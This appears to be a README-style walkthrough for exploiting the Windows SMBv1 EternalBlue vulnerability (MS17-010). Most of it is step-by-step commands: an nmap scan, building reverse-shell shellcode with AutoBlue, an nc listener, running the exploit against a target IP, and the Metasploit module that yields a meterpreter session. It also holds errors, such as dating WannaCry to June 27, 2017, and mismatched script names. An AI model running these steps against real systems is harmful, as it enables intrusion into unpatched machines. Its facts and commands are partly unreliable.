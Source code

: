 # MS17-010 EternalBlue Exploit

- **EternalBlue (MS17-010/CVE-2017-0144)** is the name given to a collection of Windows vulnerabilities and exploits that allow attackers to remotely execute arbitrary code and gain access to a Windows system and consequently the network that the target system is a part of.

- The EternalBlue exploit was developed by the **NSA (National Security Agency)** to take advantage of the MS17-010 vulnerability and was leaked to the public by a hacker group called the **Shadow Brokers** in 2017.

- The EternalBlue exploit takes advantage of a vulnerability in the Windows **SMBv1 protocol** that allows attackers to send specially crafted packets that consequently facilitate the execution of arbitrary commands.

- The **EternalBlue** exploit was used in the **WannaCry** ransomware attack on **June 27, 2017** to exploit other Windows systems across networks with the objective of spreading the ransomware to as many systems as possible.

- This vulnerability affects multiple versions of Windows:
  - Windows Vista
  - Windows 7
  - Windows Server 2008
  - Windows 8.1
  - Windows Server 2012
  - Windows 10
  - Windows Server 2016
    
- Microsoft released a patch for the vulnerability in **March 2017**, however, many users and companies have still not yet patched their systems.

- The **EternalBlue exploit** has a **MSF auxiliary module** that can be used to check if a target system is vulnerable to the exploit and also has an exploit module that can be used to exploit the vulnerability on unpatched systems.

- The **EternalBlue exploit module** can be used to exploit vulnerable Windows systems and consequently provide a **privileged meterpreter session** on the target system.

- In addition to MSF modules, we can also manually exploit the vulnerability by utilizing **publicly available exploit code**.
----
# Tools & Environment

- **AutoBlue-MS17-010**: [https://github.com/3ndG4me/AutoBlue-MS17-010](https://github.com/3ndG4me/AutoBlue-MS17-010)
- **Target system**: Windows 
- **Penetration Testing distribution**: Kali Linux or Any linux
----

<h2>Pratically</h2>
Scan With Nmap
<code>sudo nmap -sV -p 445 -O {ip}</code>
or 
<code>sudo nmap -sV -p 445 --script=smb-vuln-ms17-010 {ip}</code></br>
Now, Clone tool AutoBlue-MS17-010</br>
and Install it properly including requirements.txt</br>
then </br>
<code>cd shellcode</code></br>
<code>chmod +x shell_prep.sh</code></br>
<code>./shell_prep.py</code></br>
It will ask (y/n): y</br>
LHOST: your IP</br>
LPORT: 1234 or any for both x64 x86</br>
then 1 and 1 for both options </br>
<h3>Setup nc listner</h3></br>
<code>nc -nvlp 1234</code></br>
Note: you can use exploit according to version of windows you are targetting Now i will target window7</br>
<span>If it has not executable permission then provide them </span></br>
<code>chmod +x eternalblue_exploit7.py</code></br>
<code>python eternalblue_exploit.py {ip} shellcode/sc_x64.bin</code></br>we can you X64 orX86 according to operationg system</br>

<h3>Exploiting this with metasploit</h3></br>
 <code>msfconlole</code></br>
 <code>search eternalblue</code></br>
 <code>use  exploit/windows/smb/ms17_010_eternalblue</code></br>
 <code>show options</code></br>
 <code>set RHOST {ip}</code></br>
 <code>exploit</code></br>
 now we will get meterpreter session

